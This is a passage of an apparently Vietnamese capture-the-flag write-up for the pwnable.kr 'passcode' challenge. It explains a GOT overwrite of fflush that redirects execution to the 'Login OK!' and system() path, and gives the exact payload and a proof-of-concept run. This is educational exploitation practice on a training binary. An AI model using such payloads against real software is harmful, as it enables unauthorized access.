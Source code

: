 ```bash
 ► 0 0x8048586 login+34
   1 0x8048684 main+31
   2 0xf7d99d43 __libc_start_call_main+115
   3 0xf7d99e08 __libc_start_main+136
   4 0x80484d1 _start+33
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> 
```

Tuy nhiên tới đây, mình nhận ra không thể ghi đè giá trị của **passcode2** bằng cách này được.

Hmmmm...

Tới đây, mình nghĩ ra một cách khác là thay vì tìm cách ghi giá trị cho 2 biến **passcode1** và **passcode2** cho hợp lý thì mình sẽ tìm cách thay đổi một giá trị nào đó khiến cho chương trình hoạt động theo ý mình muốn.

Ở đây, mình sẽ cần 2 gadgets để thực hiện việc trên:
- Tìm địa chỉ để ghi đè, thay đổi.
    > Trong các địa chỉ có quyền **write** thì mình nhớ đến **GOT (Global Offset Table)** - **0x804a004**. Ở đây mình sẽ chọn **fflush@GOT** vì nó là hàm sẽ được gọi đến ngay sau khi thực hiện việc `scanf("%d", passcode1);`
- Tìm địa chỉ để ghi đè 
    > Ở đây mình sẽ chọn ngay đến **0x080485d7**, vì nó sẽ thực hiện việc đẩy chuỗi **"Login OK!"** lên stack sau đó in ra màn hình (Mình chọn ở đây, do nếu flag có lỗi hay gì thì vẫn có evidence chứng mình exploit thành công)
    ```asm
    0x080485cc <+104>:   jne    0x80485f1 <login+141>
   0x080485ce <+106>:   cmp    DWORD PTR [ebp-0xc],0xcc07c9
   0x080485d5 <+113>:   jne    0x80485f1 <login+141>
   0x080485d7 <+115>:   mov    DWORD PTR [esp],0x80487a5
   0x080485de <+122>:   call   0x8048450 <puts@plt>
   0x080485e3 <+127>:   mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:   call   0x8048460 <system@plt>
   0x080485ef <+139>:   leave
   ```

Vậy payload khai thác sẽ là: `b'A' * 96 + b'\x04\xa0\x04\x08' + str(0x080485d7).encode()`

> **0x080485d7** phải truyền vào dưới dạng chuỗi vì nó sẽ là giá trị mình sẽ nhập vào khi được yêu cầu nhập **passcode1** => Ghi đè giá trị tại địa chỉ đã được ghi đè trước đó (Ở đây là **fflush@GOT**)

**POC**

```bash
passcode@pwnable:~$ python2 -c "print b'A' * 96 + b'\x04\xa0\x04\x08' + str(0x080485d7).encode()"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA134514135
passcode@pwnable:~$ python2 -c "print b'A' * 96 + b'\x04\xa0\x04\x08' + str(0x080485d7).encode()" | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
enter passcode1 : Login OK!
Sorry mom.. I got confused about scanf usage :(
Now I can safely trust you that you have credential :)
passcode@pwnable:~$
```
